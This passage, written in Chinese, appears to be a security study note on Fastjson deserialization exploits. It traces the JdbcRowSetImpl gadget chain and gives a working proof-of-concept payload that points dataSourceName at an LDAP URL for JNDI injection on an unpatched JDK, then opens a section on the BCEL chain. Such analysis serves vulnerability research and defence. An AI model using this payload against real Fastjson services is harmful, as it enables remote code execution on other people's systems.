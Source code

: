 我们想下利用链流程，

首先要给DataSourceName赋值，DataSourceName的setter和getter方法都有。**但是注意getter方法的返回值类型，分析源码的时候讲到了加载反序列化器时要触发getter方法返回值只能是几个类型。这里getter不会被触发。（在后续的toJSON中会被触发）**

之后要触发connect()方法，查找谁调用了它。发现setter和getter方法都有，和上面一样的。

![image-20240731153003344](https://s2.loli.net/2024/07/31/1npHTgQdZCbiG52.png)

这里选setAutoCommit方法。

我们都选择set方法，利用起来方便些。

```java
public void setAutoCommit(boolean var1) throws SQLException {
    if (this.conn != null) {
        this.conn.setAutoCommit(var1);
    } else {
        this.conn = this.connect();
        this.conn.setAutoCommit(var1);
    }

}
```

## 攻击实现

根据上面分析，很容易把payload写出来，fastjson通过我们给的json反序列化出一个JdbcRowSetImpl对象，过程中先调用setDataSourceName给dataSourceName赋值再调用setAutoCommit --> connect()

下面用的JNDI+LDAP攻击，我用的8u141，JNDI还没修复。

```java
public class FastJsonJdbcRowSetImpl {
    public static void main(String[] args) throws Exception {
        //JdbcRowSetImpl
        String s = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://localhost:10389/cn=Exp,dc=example,dc=com\",\"autoCommit\":0}";
        JSONObject jsonObject = JSON.parseObject(s);
        System.out.println(jsonObject);
        //LdapCtx
    }
}
```

这里要注意dataSourceName的写法，因为fastjson是根据setter和getter获取的属性，所以名字要根据setter和getter的名字写，而不是根据对应属性名写。

# Bcel链

上面讲到的JdbcRowSetImpl链，是和JNDI注入结合使用，会收到JDK版本限制。

Bcel链不受JDK版本限制。

## 分析过程
